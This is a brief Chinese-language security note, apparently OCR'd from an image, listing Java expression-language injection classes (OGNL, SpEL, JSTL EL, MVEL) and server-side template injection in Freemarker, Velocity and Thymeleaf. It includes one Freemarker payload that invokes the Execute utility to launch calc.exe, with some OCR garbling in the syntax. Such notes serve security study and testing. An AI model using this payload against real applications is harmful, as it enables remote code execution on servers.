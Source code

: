 框架EL表达式注入-SPEL&JSTL&OGNL等
Struts2-OGNL
Spring-SPEL
JSP-JSTL_EL
Elasticsearch-MVEL

由java后端模板引擎注入导致的RCE漏洞，如：Freemarker、Velocity、Thymeleaf等


```
Freemarker：在html中
<divclass="content-txt">${announce.content}</div>

<#assign value="freemarker.template.utility.Execute"?new()>${value"calc.exe")}
````